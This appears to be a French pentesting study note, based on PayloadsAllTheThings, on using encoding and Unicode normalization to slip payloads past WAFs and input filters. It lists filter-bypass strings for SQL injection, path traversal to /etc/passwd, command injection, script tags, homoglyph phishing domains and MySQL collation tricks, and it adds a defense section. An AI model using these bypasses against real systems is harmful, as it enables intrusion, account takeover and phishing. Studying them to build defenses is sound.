

# 🔡 Encoding Transformations

> [!info] **En 1 phrase**
> Les transformations d'encodage changent la **représentation** d'une donnée sans changer son sens — l'attaquant les utilise comme **gadgets** pour bypasser filtres d'input, WAF et routines de sanitization.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Encoding%20Transformations/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Principe**
> Le WAF ou le filtre voit une forme (encodée, inoffensive) et l'application transforme l'input **avant** de l'utiliser → le payload d'origine ressort. L'efficacité dépend de la **différence de normalisation** entre le filtre et l'app.

---

## 🔗 URL Encoding

```text
# Encode tout caractère spécial
%27 '   %22 "   %23 #   %3B ;   %3D =   %0A newline
%2e .   %2f /   %5c \   %00 null byte

# Double encodage (si l'app décode deux fois)
%2527    → %27   → '
%25%27

# Overlong UTF-8 (décodeurs tolérants)
%c0%27   → '
%c0%af   → /
```

---

## 🔤 Unicode & Normalisation

> Unicode associe à chaque caractère un **code point** (ex : `U+0041` = "A"). Les formats UTF-8/UTF-16 stockent ces code points en octets. La **normalisation** convertit des textes équivalents vers une forme standard :

| Forme | Effet |
|---|---|
| **NFC** | Composition canonique (caractères précomposés) |
| **NFD** | Décomposition canonique (base + marques combinantes) |
| **NFKC** | Composition + équivalents de compatibilité |
| **NFKD** | Décomposition + équivalents de compatibilité |

### Caractères qui deviennent des payloads après normalisation

| Caractère | Payload | Après normalisation |
|---|---|---|
| `‥` (U+2025) | `‥/‥/‥/etc/passwd` | `../../../etc/passwd` |
| `＇` (U+FF07) | `＇ or ＇1＇=＇1` | `' or '1'='1` |
| `﹣` (U+FE63) | `admin'﹣﹣` | `admin'--` |
| `。` (U+3002) | `domain。com` | `domain.com` |
| `／` (U+FF0F) | `／／domain.com` | `//domain.com` |
| `＜` (U+FF1C) | `＜img src=a＞` | `` |
| `＆` (U+FF06) | `＆＆whoami` | `&&whoami` |
| `ｐ`+`ʰ` | `shell.ｐʰｐ` | `shell.php` |
| `ª` (U+00AA) | `ªdmin` | `admin` |

```python
import unicodedata
s = "ᴾᵃʸˡᵒᵃᵈˢ𝓐𝓵𝓵𝕋𝕙𝕖𝒯𝒽𝒾𝓃ℊ𝓈"
print(unicodedata.normalize('NFKC', s))
```

### Punycode (IDN)

> Le DNS ne supporte que l'ASCII → les IDN sont convertis en **Punycode** (`xn--...`). Un domaine visuellement identique (homoglyphe) peut cibler un site légitime → phishing / account takeover.

| Visible navigateur | ASCII réel (Punycode) |
|---|---|
| раypal.com | `xn--ypal-43d9g.com` |
| paypal.com | `paypal.com` |

### Égalité dans MySQL (collation `_as_cs` non utilisée)

```sql
-- Caractères similaires traités comme égaux → abuse des Password Reset / OAuth
SELECT 'a' = 'ᵃ';
-- → 1  (avec COLLATE utf8mb4_0900_as_cs → 0)
```

---

## 🔢 Base64

> 3 octets d'entrée → 4 caractères ASCII (`A-Z a-z 0-9 + /`), padding `=` si nécessaire. Utile pour exfiltrer, masquer et encoder des payloads binaires.

```bash
echo -n admin | base64            # YWRtaW4=
echo -n YWRtaW4= | base64 -d      # admin
```

---

## 🧮 Autres encodages utiles

| Encodage | Exemple | Usage |
|---|---|---|
| **hex** | `61646d696e` | exfiltration, injection (0x...) |
| **octal** | `\141\144\155\151\156` | bypass filters de quotes |
| **UTF-16 LE/BE** | `a\0d\0m\0...` | bypass signatures de strings |
| **HTML entities** | `&#x27;` / `&#39;` | contexte HTML (XSS) |
| **Full-width** | `ｓｅｌｅｃｔ` (U+FF53...) | bypass WAF signatures |

---

## 🛠️ Bypass WAF via encodage

```text
# Exemples concrets
1' OR '1'='1            →  1%27%20OR%20%271%27%3D%271
/../../../etc/passwd    →  %2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
                        →  %c0%ae%c0%ae%c0%af  (overlong UTF-8)
<script>                →  %3cscript%3e / <scr<script>ipt> (split)
```

> [!tip] 💡 **Table de normalisation**
> [Unicode Normalization reference table — AppCheck](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html) : à garder sous la main pour trouver les caractères qui se normalisent vers `/`, `'`, `<`, `&&`, `--`, `{{ }}`, `[[ ]]`, `.php`...

---

## 🔍 Détection & Défense

| Mesure | Détail |
|---|---|
| **Normaliser d'abord** | Normaliser (NFKC) **et** décoder (URL/HTML/Base64) toutes les entrées AVANT validation |
| **Valider après transformation** | La validation doit porter sur la forme **finale** utilisée, jamais sur la forme brute |
| **Canonicalisation chemin** | `realpath`/`resolve` + vérification du préfixe pour les paths |
| **WAF** | Configurer le WAF sur plusieurs niveaux de décodage (décode itératif) |
| **Collations** | Utiliser des collations `_as_cs` / accent-sensitives pour les comparaisons sensibles (reset password, OAuth) |
| **IDN** | Punycode les noms de domaine, détecter les homoglyphes |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Le double décodage**
> Si l'app décode deux fois (reverse proxy + app), un **double encodage** (`%2527`) passe le filtre au niveau 1 puis devient `'` au niveau 2.

> [!warning] ⚠️ **Pièges**
> - La normalisation Unicode se fait **selon la forme** : NFKC combine `ｐ` + `ʰ` → `p` + `h`... testez les 4 formes (NFC/NFD/NFKC/NFKD).
> - Un même payload peut être **inoffensif pour une app** (qui normalise pas) et **critique pour une autre**.
> - Les **homoglyphes** (раypal vs paypal) servent au phishing mais aussi aux bypass de vérification de domaine.
> - MySQL avec `COLLATE utf8mb4_0900_as_cs` casse le trick d'égalité → tester la collation utilisée.

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[Path Traversal|🗂️ Path Traversal]]
- [[Client Side Path Traversal|🧭 Client Side Path Traversal]]
- [[Injection SQL|💾 SQLi]]
- → [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Encoding Transformations](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Encoding%20Transformations/README.md)
